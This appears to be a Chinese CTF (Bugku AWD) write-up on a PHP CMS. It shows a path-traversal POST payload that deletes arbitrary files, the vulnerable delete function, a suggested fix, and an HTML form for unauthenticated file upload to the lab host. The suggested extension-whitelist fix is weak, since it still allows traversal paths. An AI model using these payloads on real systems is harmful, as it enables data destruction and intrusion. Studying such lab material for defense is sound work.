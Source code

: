 ```

pid%5B0%5D=../index.html&chkall=on&send=%E5%88%A0%E9%99%A4%E9%80%89%E4%B8%AD%E5%9B%BE%E7%89%87
```

只需要更改 `pid%5B0%5D` 的值即可任意删除文件, 当前目录是 /admin/

![20210618192123307](D:\safetool\Tools\Web2\github\Rickyweb\bugkuAWD\img\20210618192123307.png)

其实这还是犯了一个最容易犯的错误，没有对传进来的路径进行过滤就拼接了目录，导致了任意文件删除漏洞的产生
根据url定位到相关函数位置,位于 `/controller/PicAction.class.php`

```php
public function delall(){
        if(isset($_POST['send'])){
            if(validate::isNullString($_POST['pid'])) tool::layer_alert('没有选择任何图片!','?a=pic',7);
            $_fileDir=ROOT_PATH.'/uploads/';
            foreach($_POST['pid'] as $_value){
                $_filePath=$_fileDir.$_value;
                if(!unlink($_filePath)){
                    tool::layer_alert('图片删除失败,请设权限为777!','?a=pic',7);
                }else{
                    header('Location:?a=pic');
                }
            }

        }

    }
```

对 pid 传进来的值并没有进行过滤就进行了了路径的拼接，导致了路径穿越漏洞，触发任意文件删除漏洞
### 修改

加上 session 判断并加上路径过滤(添加白名单)

```
if (isset($_SESSION['admin'])) {}
else {Tool::alertLocation(null, '?a=login');}
if (preg_match('/png$|jpg$|gif$|jpeg$/', $_value)) {} else {header('Location:?a=pic');}
```

## 任意文件上传一

越权上传

```html
<!DOCTYPE html>
<html>
	<head>
		<title>upload</title>
	</head>
<body>
	<form action="http://192-168-1-21.pvp336.bugku.cn/admin/?a=call&m=upLoad" method="POST" enctype="multipart/form-data">
		<!--<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="1" />-->
		<label for="file">file name: </label>
		<input type="file" name="file"/><br>
		<input type="submit" name="submit" value="Submit"/>
	</form>
</body>
</html>
```
